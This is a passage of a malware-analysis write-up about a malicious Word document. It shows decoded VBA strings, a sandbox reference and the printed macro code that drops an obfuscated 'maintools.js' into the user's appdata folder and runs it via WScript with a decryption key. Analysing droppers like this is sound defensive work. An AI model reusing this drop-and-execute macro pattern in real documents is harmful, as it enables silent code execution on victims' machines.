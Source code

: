 ```
|VBA string|\maintools.js       |"\" & "maintools.js"                         |
|VBA string|"                   |"""" + " EzZETcSXyKAdF_e5I2i1"               |
|          |EzZETcSXyKAdF_e5I2i1|                                             |
+----------+--------------------+---------------------------------------------+
```

In this case we can see a new file being mentioned in the VBA macro named `maintools.js` further below another VBA string is decoded `EzZETcSXyKAdF_e5I2i1`. It looks like the `maintools.js` file is taking this suspicious string as an command-line argument. This suspicious string is the decryption key for the obfuscated code within `maintools.js`. 
Secondly this can also be confirmed by running the word document within a sandbox such as https://tria.ge . Another individual previously uploaded the document for analysis on this platform https://tria.ge/220629-y7vjgscfdr/behavioral1

![alt text](Obfuscated.png)
Here we see the document dropping the `maintools.js` file and running i with the suspect decryption key as a command-line argument.

Finally this can also be statically deobfucated from the VBA macro itself.
In the below VBA macro snippet we can see that the `OBKHLrC3vEDjVL` string variable is being run by WScript and taking our suspected decryption key as an argument.
The `OBKHLrC3vEDjVL` variable is defined as so `OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"` and `B8qen2T433Ds1bW` is defined as so `B8qen2T433Ds1bW = Environ("appdata") & "\Microsoft\Windows"`
This will make the file execute from the following folderpath `%appdata%\Microsoft\Windows`, just as we see in the sandbox analysis.
```vb
B8qen2T433Ds1bW = Environ("appdata") & "\Microsoft\Windows"
Set R7Ks7ug4hRR2weOy7 = CreateObject("Scripting.FileSystemObject")
If Not R7Ks7ug4hRR2weOy7.FolderExists(B8qen2T433Ds1bW) Then
B8qen2T433Ds1bW = Environ("appdata")
End If
Set R7Ks7ug4hRR2weOy7 = Nothing
Dim K764B5Ph46Vh
K764B5Ph46Vh = FreeFile
OBKHLrC3vEDjVL = B8qen2T433Ds1bW & "\" & "maintools.js"
Open (OBKHLrC3vEDjVL) For Binary As #K764B5Ph46Vh
Put #K764B5Ph46Vh, 1, Wk4o3X7x1134j
Close #K764B5Ph46Vh
Erase Wk4o3X7x1134j
Set R66BpJMgxXBo2h = CreateObject("WScript.Shell")
R66BpJMgxXBo2h.Run """" + OBKHLrC3vEDjVL + """" + " EzZETcSXyKAdF_e5I2i1"
```
